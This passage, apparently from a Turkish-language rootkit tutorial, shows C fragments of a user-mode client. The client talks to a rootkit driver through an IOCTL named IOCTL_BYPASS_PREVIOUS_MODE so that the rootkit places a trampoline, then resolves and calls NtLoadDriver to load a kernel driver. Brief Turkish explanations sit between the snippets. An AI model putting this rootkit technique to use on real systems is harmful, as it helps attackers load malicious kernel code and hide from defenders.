 ```c
```

Kodlarımız bu şekilde. Kabaca ne yapıldığını anlamışsınızdır. Rootkit ile iletişim kuruyoruz ardından NTDLL'den NtLoadDriver'ın adresini alıp çağırıyoruz. 

```c
HandleDevice = CreateFile(DEVICE_NAME, GENERIC_WRITE | GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
 if (INVALID_HANDLE_VALUE == HandleDevice) {
  printf("Failed to connect Driver! Error Code: 0x%lx\n", GetLastError());

  dwExitCode = EXIT_FAILURE;
  goto Exit;
 }

BOOLEAN bValue = TRUE;
 Result = DeviceIoControl(HandleDevice, IOCTL_BYPASS_PREVIOUS_MODE, &bValue, sizeof(bValue), NULL, 0, &OutputBytesReturned, NULL);
 if (!Result) {
  printf("Failed to IOCTL Code!\n");

  dwExitCode = EXIT_FAILURE;
  goto Exit;
 }
```

İlk olarak burada, trambolini yerleştirmesi için rootkit ile iletişim kuruyoruz. 

```c
NTDLL = GetModuleHandleA("ntdll.dll");
 if (NULL == NTDLL) {
  printf("Failed to get address of NTDLL!\n");

  dwExitCode = EXIT_FAILURE;
  goto Exit;
 }
 printf("NTDLL: 0x%p\n", NTDLL);

 _NtLoadDriver = (NtLoadDriver)GetProcAddress(NTDLL, "NtLoadDriver");
 if (NULL == _NtLoadDriver) {
  printf("Failed to get address of NtLoadDriver!\n");

  dwExitCode = EXIT_FAILURE;
  goto Exit;
 }
 printf("NtLoadDriver: 0x%p\n", _NtLoadDriver);

 Status = _NtLoadDriver(&DriverServiceName);
 if (Status != 0) {
  if (Status == 0xc000010e) {
   printf("The driver is already loaded\n");

   dwExitCode = EXIT_SUCCESS;
   goto Exit;
  }
  printf("Failed to Load Driver! Error Code: 0x%08x\n", Status);

  dwExitCode = EXIT_FAILURE;
  goto Exit;
 }
 printf("The driver was installed successfully\n");
 dwExitCode = EXIT_SUCCESS;
```
